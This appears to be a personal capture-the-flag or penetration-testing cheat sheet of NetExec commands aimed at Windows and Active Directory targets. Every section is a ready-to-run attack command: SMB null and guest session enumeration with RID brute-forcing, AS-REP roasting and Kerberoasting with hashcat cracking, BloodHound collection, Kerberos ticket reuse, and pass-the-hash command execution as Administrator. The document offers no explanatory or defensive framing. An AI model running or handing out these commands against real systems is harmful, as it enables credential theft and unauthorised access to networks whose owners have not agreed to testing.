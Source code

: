 # nxc
#plateform/linux #target/remote #cat/ATTACK

## nxc2 for generating HOST File
```
nxc2 smb <ip> --generate-hosts-file hosts_file && cat hosts_file >> /etc/hosts
```

## SMB all in one
```
nxc smb <ip> -u '<user>' -p '<passwd>' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## SMB null all in one
```
nxc smb <ip> -u '' -p '' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## SMB guest all in one
```
nxc smb <ip> -u 'a' -p '' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## LDAP anonymous all in one
```
nxc ldap <ip> -u '' -p ''
```

## LDAP all in one
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --users --asreproast hashes.asreproast --kerberoasting hashes.kerberoast; hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force; hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```
## Checking ADCS
```
nxc ldap <ip> -u '<user>' -p '<passwd>' -M adcs
```

## Check kcache tickets
```
nxc smb <ip> -k --use-kcache -u <user> -X "whoami"
```

## Generate krb5 file
```
nxc smb <ip> -u <user> -p <password> --generate-krb5-file <out_file>
```

## Execute bloodhound
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --bloodhound --collection All --dns-server <ip>
```

## Execute bloodhound w/o ObjectProps
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --bloodhound --collection Group,LocalAdmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn --dns-server <ip>
```

## Cat root.txt with administrator hash
```
nxc smb <ip> -u Administrator -H '<hash>' -x 'type C:\Users\Administrator\Desktop\root.txt'
```
